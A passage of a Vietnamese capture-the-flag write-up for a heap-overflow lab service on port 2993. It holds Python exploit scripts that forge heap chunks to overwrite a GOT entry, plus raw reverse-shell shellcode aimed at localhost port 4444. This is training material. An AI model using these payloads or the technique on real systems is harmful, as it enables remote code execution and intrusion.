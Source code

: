 ```

s = socket.socket()
s.connect(("127.0.0.1", 2993))

chunk1 = "FSRD" + "a"*4 + shellcode + "/ROOT"
s.send(chunk1 + "a"*(128 - len(chunk1)))
```
Vì để lợi dụng được unlink macro thì shellcode phải ngắn, do đó ta làm một shellcode phụ để chuyển hướng đến shellcode chính:
```
  push 0x804e00c
  ret

=> \x68\x0C\xE0\x04\x08\xC3
```
Để shellcode phụ ở chunk 2, ngay sau "FSRD", => địa chỉ shellcode phụ là 0x0804e098 (0x0804e090 + 8)

Để ý thấy sau hàm free chương trình có call <write@plt>, tương tự như heap3, tìm địa chỉ của hàm write trong bảng GOT: 0x804d41c


**Fail attempt #1:**

Thay đổi metadata của chunk 3, tính toán tương tự như heap3, ta có**Fail attempt #1:** script:

```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2993))

chunk1 = "FSRD" + "a"*4 + shellcode + "/ROOT"
chunk1 = chunk1 + "a"*(128 - len(chunk1))

shellcode_phu = "\x68\x0c\xe0\x04\x08\xc3"
chunk2 = "FSRD" + "a"*4 + shellcode_phu + "a"*109 + "/ROOT"

chunk3 = "FSRD" + "ROOT" + "a"*95 + "/" + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "a"*4 + "\x10\xd4\x04\x08" + "\x98\xe0\x04\x08"
s.send(chunk1 + chunk2 + chunk3 + "\n")


s.recv(1024)
s.recv(1024)
s.recv(1024)
s.close()
```
Chạy script trên xong, heap sẽ như sau:
- chunk 1 chứa shellcode
- chunk 2 chứa shellcode phụ
- chunk 3 có metadata là prevsize = -4, size = -4, fakechunk, ... được setup như heap3.
